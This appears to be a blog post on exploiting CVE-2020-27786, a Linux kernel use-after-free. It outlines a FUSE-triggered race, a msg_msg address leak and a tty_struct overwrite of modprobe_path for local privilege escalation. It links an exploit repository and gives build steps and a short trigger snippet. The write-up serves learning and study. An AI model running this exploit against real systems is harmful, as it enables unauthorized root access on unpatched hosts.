 ```yaml
---
title: CVE-2020-27786 FUSE UaF
date: 2023-04-26
categories: [linux_kernel]
tags: [nday, fuse, msg_msg, tty_struct, modprobe_path, shm_file_data]
---
```



# Overview

I was looking for nday that I can use to learn more about FUSE since userfaultfd technique is dead in lastest kernel :(. My good friend [c0ld21](https://c0ld21.github.io/) was porting [kiks](https://1day.dev/notes/Linux-Kernel-n-day-exploit-development/) PoC of CVE-2020-27786 which is written for 4.9.223 to 5.6.13 and I scheme through the original PoC and thought it was a good candidate to learn more about FUSE. The reason being it triggers UaF via race condition through userfaultfd.

In this blog I will explain how you can use `FUSE` to trigger UaF and use `msg_msg` to leak kernel address and use `tty_struct` to write `modprobe_path` to get LPE.


# Building Exp

Exp will be is [here](https://github.com/elbiazo/CVE-2020-27786)

```sh
git clone https://github.com/elbiazo/CVE-2020-27786.git
cd CVE-2020-27786
cmake -S . -B build -G Ninja
cmake --build build
```

If it doesn't compile you would likely need to install FUSE

```sh
apt-get install fuse
apt-get install libfuse-dev
```
# Building Linux Kernel

You can follow [syzkaller guide](https://github.com/google/syzkaller/blob/master/docs/linux/setup_ubuntu-host_qemu-vm_x86-64-kernel.md). TLDR; Instead of doing `make defconfig`, you can just copy 
`config_5.6.13` from `CVE-2020-27786` repo to `.config` then do `make olddefconfig` and `make -jnproc`

# Running Exp

Update exp.cc code `/home/user/win` to your own path. example: `/home/biazo/win`
```cpp
pwn::modprobe_path::init("/tmp/xx", "/tmp/dummy", "/home/user/win");
pwn::modprobe_path::trigger("/tmp/dummy", "/home/user/win");
```
